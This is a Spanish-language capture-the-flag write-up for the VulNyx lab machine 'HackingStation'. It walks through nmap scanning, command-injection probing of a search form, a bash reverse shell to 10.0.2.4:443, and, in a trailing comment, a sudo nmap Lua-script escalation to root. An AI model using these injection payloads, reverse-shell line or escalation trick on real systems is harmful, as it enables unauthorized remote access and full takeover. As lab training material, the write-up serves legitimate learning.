 # WRITEUP - HACKINGSTATTION - VULNYX #
![image](https://github.com/AlexGis99/Writeups/assets/82893511/34eb39b4-93b9-49b7-b8e5-30dc668567f9)
### Recon/Scanning network: ###
Empezamos identificando el activo víctima a explotar dentro de nuestra red con un reconocimiento completo de ella:
```shell
$ netdiscover -r 10.0.2.0/24
```
~~Meter imagen del resultado~~  
Identificamos la ip de nuestra víctima, ahora podemos empezar a escanear el activo para identificar posibles vectores de entrada.  
Ejecutamos un escaneo con nmap en el que escaneamos todos los 65535 puertos (-p-), que nos identifique todos aquellos puertos abiertos (--open), con un ratio mínimo de 5000 paquetes por segundo (--min-rate 5000), sin resolución DNS (-n) y sin host discovery (-Pn). [First scan](https://github.com/AlexGis99/Writeups/blob/main/Vulnyx/HackingStation/nmap/first-scan).
```console
$ nmap -p- --open --min-rate 5000 -n -Pn 10.0.2.6
```
```shell
Nmap scan report for 10.0.2.6
Host is up (0.00059s latency).
Not shown: 44294 closed tcp ports (reset), 21240 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:E1:40:2F (Oracle VirtualBox virtual NIC)

# Nmap done at Thu Apr 18 13:31:48 2024 -- 1 IP address (1 host up) scanned in 18.70 seconds
```
Observamos que solo existe un puerto abierto con el escaneo realizado, por lo que vamos a ejecutar un escaneo sobre servicios y con unos scripts por defecto para el análisis. [Scan services](https://github.com/AlexGis99/Writeups/blob/main/Vulnyx/HackingStation/nmap/scan-services).
```shell
$ nmap -p80 -sVC 10.0.2.6 
```
```shell
Nmap scan report for 10.0.2.6
Host is up (0.00069s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: HackingStation
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:E1:40:2F (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 18 13:33:06 2024 -- 1 IP address (1 host up) scanned in 6.94 seconds
```
### Enumeration ###
Como podemos comprobar, tiene un servicio HTTP con un apache 2.4.57, el cuál si buscamos un poco de información, podemos ver que está relacionado con el CVE-2023-31122, el cuál nos permite ejecutar un RCE (Remote Command Execution), no indagaremos más por ahora sobre está vulnerabilidad pero está bien tenerla en mente.  
Teniendo este servicio web, podemos dejar un dirbuster ejecutando mientras nosotros analizamos de forma manual el servicio web. [Dirbuster](https://github.com/AlexGis99/Writeups/blob/main/Vulnyx/HackingStation/enumeration/dirbuster_80).
```shell
$ dirb http://10.0.2.6:80
```
Dejamos la ejecución de dirbuster corriendo y mientras vamos a echar un vistazo al servicio web. Al entrar con el navegador, podemos ver la página principal. Este servicio web parece tener la funcionalidad de ser un repositorio de exploits en el que se pueden buscar mediante el cuadro de texto abajo. Al ver este cuadro de texto habilitado, podemos empezar a probar cualquier Injección de Comandos para ver si es vulnerable o no.   
~~Imagen página web~~  
### Exploitation ###
Antes de empezar a inyectar comandos, podemos buscar por ejemplo qué vulnerabilidades tiene apache 2.4.57 y ver el funcionamiento del servicio.  
~~Imagen búsqueda apache~~  
Identificamos que el servicio ejecuta un archivo php para hacer la búsqueda llamado queryExploit.php. Gracias a esto, ya sabemos que el servicio web usa por debajo php y nos sirve para hacer inyecciones en php o relacionado. Podemos probar a ejecutar dentro del cuadro de búsqueda de la página principal comandos como:
- PHP:
	- ";exec("ls")
 	- ';exec("ls")
  	- ");exec("ls")
  	- ');exec("ls")
- SQL:
	- '; select * --
- JS:
	- ;alert("Hacked")
 	- ";alert("Hacked")
  	- ';alert("Hacked")
  	- ");alert("Hacked")
  	- ');alert("hacked")
Pero ninguno de estos intentos nos va a funcionar. Si analizamos un poco la respuesta del servidor, observamos que nos referencia un path en el que se encuentra el posible repositorio en el que se apoya el servicio web, siendo este path: */opt/snap/core22/searchsploit/298/*. Esto nos puede dar una pista de que el comando que se está ejecutando al buscar el exploit dentro del repositorio, es un comando de sistema y al saber que estamos aparentemente ante un sistema Debian (Linux) por el escaneo de servicios realizado anteriormete, podemos probar a ejecutar comandos de sistema. Por ejemplo vamos a ejecutar un *whoami* para ver si esto es posible:
~~Imagen búsqueda~~
Al ejecutar esto, vemos que al final de la página, nos devuelve "hacker". Podemos confirmar que este es el método que está utilizando el servicio por dentro y acabamos de ejecutar un comando de forma remota en el sistema.  
~~Imagen resultado~~
### Gaining access ###
Una vez comprobado esto, vamos a enviarnos una reverse shell para conseguir conectarnos con una terminal y poder seguir con la intrusión de forma más sencilla y cómoda. Para esto dejamos nuestra máquina a la escucha por un puerto aleatorio, por ejemplo, 443, a la espera de una conexión.
```shell
$ nc -nlsvp 443
```
Mientras, hacemos una búsqueda ejecutando una reverse shell sobre el servicio web con: *;bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'* y ejecutamos.  
Acabamos de recibir una shell con el usuario hacker sobre la máquina víctima.  
~~Imagen intrusion~~  
Tenemos una shell, pero debemos realizar un tratamiento adecuado de la shell para que nos resulte más cómodo:
```shell
$ script /dev/null -c bash
$ ctrl+z
$ stty raw -echo;fg
$ reset xterm
$ export TERM=xterm
$ export SHELL=bash
```
Recibimos una shell tratada. 
<!-- ~~Machine:
	HackingStation:
	netdiscover -r 10.0.2.0/24
	nmap first
	nmap services
	Solo puerto 80, miramos la pág:
		CVE apache 2.4.57 -> CVE-2023-31122
		Dejamos ejecutando un dirb sobre el servicio, mientras examinamos a mano la web
		Primer intento de xss con <script>alert("Hacked")</script>, no nos devuelve nada pero obtenemos un archivo en php que ejecuta un comando
		Vemos el archivo php y parece ser una base de datos de exploit-db, si buscamos por ejemplo la versión de apache, nos aparecen diferentes entradas
		Dentro de las entradas, aparece un "Apache + php - remote code execution + scanner"
			https://www.exploit-db.com/exploits/29316
		Al saber que es php y no ver un tratamiento en principio de la entrada, vamos a probar a ejecutar un ls
			apache 2.4.57;exec("ls")
			Sin exito
		Vamos al dirbuster y vemos que hay una página a la que podemos acceder:
			10.0.2.6/javascript/jquery/jquery
		Seguimos probando por la parte del input, esta vez simplemente con bash
			apache 2.4.57;whoami
			Nos responde e server devolviendonos el usuario con el que se ejecuta esto "hacker". Hecho esto vamos a mandarnos una reverse shell
				nc -nlvp 443
				Ejecutamos en el botón o con un curl la reverse shell en bash:
					bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'
			Estamkos dentro, vamos a hacer una conversion de tty
				script /dev/null -c bash
				ctrl+z
				stty raw -echo;fg
				reset xterm
				export TERM=xterm
				export SHELL=bash
		Escalamos privilegios:
			id (Poca información)
			sudo -l
				Vemos que tenemos un binario "nmap" en /usr/bin/nmap el que podemos ejecutar usar con sudo
				sudo /usr/bin/nmap 127.0.0.1
				Vemos que tiene ssh activado, pero en nuestro scan no nos aparecía. Esto es debido a que estará de forma interna. El uso
				es el usual de nmap. 
				Sabemos que con nmap, podemos ejecutar scripts, vamos a intentar crear de alguna manera un script que nos devuelva una shell como root.
				Para eso buscamos y encontramos GTFO bins, dentro de ella podemos encontrar una entrada a nmap. Vemos que con una version de nmap inferior
				a la que tiene el sistema, podríamos haber iniciado una shell interactiva con: nmap --interactive. Pero nuestra version supera a las vulnerables
				En vez de usar una sh como nos indica en el GTFObins, vamos a intentar que nos devuelva una bash:
					BASH=$(mktemp)
					echo 'os.execute("/bin/bash")' > $BASH
					sudo nmap --script=$BASH
				Tenemos acceso como root. Aunque no aparezca cuando escribimos, el comando se ejecuta. Para hacerlo más comodo podemos enviarnos
				una reverse shell como root, o activar ssh y establecer por ahí una conexión (vemos como de verdad tiene ssh abierto pero solo en modo
				escucha). De todas formas en el home de root, tenemos su flag~~
